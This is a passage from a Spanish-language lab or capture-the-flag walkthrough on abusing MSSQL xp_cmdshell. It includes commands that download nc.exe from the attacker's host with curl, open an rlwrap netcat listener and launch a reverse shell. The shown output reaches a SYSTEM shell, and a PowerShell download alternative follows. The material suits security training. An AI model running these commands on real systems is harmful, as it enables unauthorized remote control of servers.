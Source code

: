 Ahora, vamos a descargar el **binario nc.exe** utilizando **curl**:
```batch
SQL (sa  dbo@master)> xp_cmdshell "curl http://Tu_IP/nc.exe -o C:\Temp\nc.exe"
output                                                                             
--------------------------------------------------------------------------------   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current    

                                 Dload  Upload   Total   Spent    Left  Speed      

100 59392  100 59392    0     0  4047k      0 --:--:-- --:--:-- --:--:-- 4142k   

NULL
```

Abre una **netcat** con **rlwrap** en tu máquina:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

Y envía una **Reverse Shell** utilizando el **binario nc.exe**:
```batch
SQL (sa  dbo@master)> xp_cmdshell "C:\Temp\nc.exe -e cmd Tu_IP 443"
```

Observa tu **netcat**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.150] 50015
Microsoft Windows [Versi�n 10.0.19045.2965]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>whoami
whoami
nt authority\system
```
Listo, tenemos una shell y somos el **Administrador**.

<br>

<h3 id="cmdlet">Utilizando cmdlet Invoke-WebRequest de PowerShell para Descargar Binario nc.exe y Obteniendo Reverse Shell</h3>

Para el caso anterior, utilizamos **curl**, pero ¿y si no lo tuviéramos?

Tenemos otras opciones, como utilizar el **comando iex de PowerShell** para ejecutar archivos web de manera remota, pero en mi caso este no me funciono.

Por lo que vamos a probar a descargar el **binario nc.exe** desde la máquina víctima, con el **cmdlet Invoke-WebRequest de PowerShell**.

Probemos si podemos ejecutar comandos de **PowerShell**:
```batch
SQL (sa  dbo@master)> xp_cmdshell powershell -c "whoami"
output                
-------------------   
nt authority\system   

NULL
```
Sí funciona.
